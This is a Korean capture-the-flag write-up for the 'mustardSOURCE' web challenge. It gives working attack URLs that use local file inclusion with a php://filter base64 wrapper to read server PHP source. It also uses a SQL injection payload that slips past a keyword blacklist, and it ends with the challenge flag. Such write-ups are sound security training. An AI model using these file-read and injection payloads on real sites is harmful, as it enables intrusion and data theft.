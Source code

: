 # mustardSOURCE - Writeup

![main](whale_2017-11-19_02-38-17.png)

[http://respect.dothome.co.kr/mustardSOURCE.php](http://respect.dothome.co.kr/mustardSOURCE.php)

___

## Local File Inclusion

`file` 파라미터를 통해 php 파일을 `include`하는 모습을 볼 수 있다.

[http://respect.dothome.co.kr/mustardSOURCE.php?file=register.php](http://respect.dothome.co.kr/mustardSOURCE.php?file=register.php)
[http://respect.dothome.co.kr/mustardSOURCE.php?file=login.php](http://respect.dothome.co.kr/mustardSOURCE.php?file=login.php)

LFI를 통해 소스코드를 읽을 수 있다.

그리고 `login.php` 파일을 읽어보니 주석에 `bG9naW4ucGhw.php` 페이지가 취약하다고 나와있다.

[http://respect.dothome.co.kr/mustardSOURCE.php?file=php://filter/convert.base64-encode/resource=login.php](http://respect.dothome.co.kr/mustardSOURCE.php?file=php://filter/convert.base64-encode/resource=login.php)
``` php
<?php
/* I think You think "Vuln is SQL INJECTION!" UMM.... maybe??????????*/
/* real Vuln page is bG9naW4ucGhw.php */
?>

<html>
<head>
<body>
<center>
<h1>^_^ THIS IS FAKE PAGE!!!!!</h1>
<!-- I think you should see the page source~~~ -->

</center>
</body>
</head>
</html>
```

___

이 역시 LFI로 소스코드를 읽어봤더니, SQL Injection 취약점이 있을것 같은 로그인 페이지가 나온다.

[http://respect.dothome.co.kr/mustardSOURCE.php?file=php://filter/convert.base64-encode/resource=bG9naW4ucGhw.php](http://respect.dothome.co.kr/mustardSOURCE.php?file=php://filter/convert.base64-encode/resource=bG9naW4ucGhw.php)
``` php
<?php
include_once("./dbConnect.php");
include_once("./ab0bfd73daaec7912dcdca1ba0ba3d05.php");
@$username = $_GET['username'];
@$password = $_GET['password'];

if(preg_match("/or|and|like|=|'|substr|admin|0x|hex|ord|regex|reverse|char/i", $username))
{
		exit("No hack!");	
}

else if(preg_match("/or|and|like|=|'|substr|admin|0x|hex|ord|regex|reverse|char/i", $password))
{
		exit("No hack!");	
}
$query = "select * from mustardSOURCE where username='{$username}' and password='{$password}'";
$result = @mysqli_query($sql_conn, $query);
$rows = @mysqli_fetch_array($result);


echo $query;
echo "<hr>";

if($rows['username'] === "admin")
{
	echo "flag is ".$flag;
}
show_source("bG9naW4ucGhw.php");
?>
```

___

## Local File Inclusion, again?

아마 여기선 SQL Injection을 하기를 의도한것 같은데, `flag`가 들어있는 페이지마저도 LFI로 소스코드가 읽어졌다.

?? 출제 오류의 낌새가 난다.

[http://respect.dothome.co.kr/mustardSOURCE.php?file=php://filter/convert.base64-encode/resource=ab0bfd73daaec7912dcdca1ba0ba3d05.php](http://respect.dothome.co.kr/mustardSOURCE.php?file=php://filter/convert.base64-encode/resource=ab0bfd73daaec7912dcdca1ba0ba3d05.php)
``` php
<?php
$flag = "h3x0r{S0U4CE_LIKE_PHP}";
?>
```

___

## SQL Injection

예의상 SQL Injection으로도 풀어봤다.

[http://respect.dothome.co.kr/bG9naW4ucGhw.php?username=\&password=||1%23](http://respect.dothome.co.kr/bG9naW4ucGhw.php?user)
```
flag is h3x0r{S0U4CE_LIKE_PHP}
```

___

## Answer
flag: `h3x0r{S0U4CE_LIKE_PHP}`